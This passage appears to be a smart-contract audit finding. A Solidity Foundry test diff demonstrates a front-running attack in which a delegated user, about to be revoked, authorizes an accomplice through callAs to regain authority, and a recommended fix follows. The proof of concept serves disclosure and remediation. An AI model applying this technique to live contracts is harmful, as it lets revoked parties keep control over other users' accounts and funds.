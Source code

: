 ```diff
diff --git a/test/Caller.t.sol b/test/Caller.t.sol
index 861b351..3e4be22 100644
--- a/test/Caller.t.sol
+++ b/test/Caller.t.sol
@@ -125,6 +125,24 @@ contract CallerTest is Test {
         vm.expectRevert(ERROR_UNAUTHORIZED);
         caller.callAs(sender, address(target), data);
     }
+    
+    function testFrontRunUnauthorize() public {
+        bytes memory data = abi.encodeWithSelector(target.run.selector, 1);
+        address bob = address(0xbab);
+        address eve = address(0xefe);
+        // Bob is authorized by Alice
+        authorize(sender, bob);
+
+        // Bob became malicious and Alice now wants to remove him
+        // Bob sees the `unauthorize()` call and front runs it with authorizing Eve
+        authorizeCallAs(sender, bob, eve);
+
+        unauthorize(sender, bob);
+
+        // Eve can now give Bob his authority back
+        authorizeCallAs(sender, eve, bob);
+
+    }
 
     function testAuthorizingAuthorizedReverts() public {
         authorize(sender, address(this));
@@ -257,6 +275,13 @@ contract CallerTest is Test {
         assertTrue(caller.isAuthorized(authorizing, authorized), "Authorization failed");
     }
 
+    function authorizeCallAs(address originalUser,address delegated, address authorized) internal {
+        bytes memory data = abi.encodeWithSelector(Caller.authorize.selector, authorized);
+        vm.prank(delegated);
+        caller.callAs(originalUser, address(caller),  data);
+        assertTrue(caller.isAuthorized(originalUser, authorized), "Authorization failed");
+    }
+
     function unauthorize(address authorizing, address unauthorized) internal {
         vm.prank(authorizing);
         caller.unauthorize(unauthorized);

```

### Recommended Mitigation Steps

Don't allow authorized users to call `authorize()` on behalf of the original user.
